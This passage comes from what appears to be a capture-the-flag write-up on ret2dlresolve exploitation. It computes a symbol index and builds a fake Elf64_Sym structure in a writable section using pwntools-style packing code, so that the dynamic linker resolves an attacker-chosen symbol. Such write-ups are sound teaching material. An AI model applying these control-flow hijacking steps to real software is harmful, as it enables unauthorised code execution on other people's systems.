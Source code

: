 So first, we will choose an address for Elf64_Sym so that `symbol_numer` is an integer:

```
    <Address of Elf64_Sym> = <SYMTAB> + <symbol_number> * 24
<=> <symbol_number> = ( <Address of Elf64_Sym> - <SYMTAB> ) / 24
```

After a first trying, we know that we can use the address of rw_section to write our fake Elf64_Sym struct. So now we have:

```
SYMTAB = 0x400290
Elf64_Sym_addr  = rw_section                             = 0x403e00
symbol_number   = int(( Elf64_Sym_addr - SYMTAB ) / 24)  = 634
```
Now, we will create a fake struct for Elf64_Sym. The structure of Elf64_Sym is defined as follows:

```
typedef struct elf64_sym {
    Elf64_Word st_name;       /* Symbol name, index in string table (4 bytes)*/
    unsigned char st_info;    /* Type and binding attributes (1 bytes) */
    unsigned char st_other;   /* No defined meaning, 0 (1 bytes) */
    Elf64_Half st_shndx;      /* Associated section index (2 bytes) */
    Elf64_Addr st_value;      /* Value of the symbol (8 bytes) */
    Elf64_Xword st_size;      /* Associated symbol size (8 bytes) */
} Elf64_Sym;
```

The variable we want to fake here is st_name and we just keep the others same as Elf64_Sym of read:

![read_fake_keep.png](images/read_fake_keep.png)

But because our space is limited so we cannot write the struct in 0x10 bytes, the other 0x10 bytes will be use to control the flow. So our Elf64_Sym_Struct would be like this:

```
st_name = p32(0xdeadbeef)        # Unknown, temporary
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
# st_size is null already because the stack now contain all null byte
# so we don't need to write these variable, just need to pad full 0x10 
# bytes so that we don't need to sleep()
Elf64_Sym_struct = st_name + st_info + st_other + st_shndx
```

Because we haven't build up structure for STRTAB so st_name will be `0xdeadbeef`, just temporary and will change when STRTAB is finished. Now we will leave it here and continue with the second struct: Elf64_Rela!

### Stage 3: Fake address and structure of Elf64_Rela ([Table of content](#table-of-content))
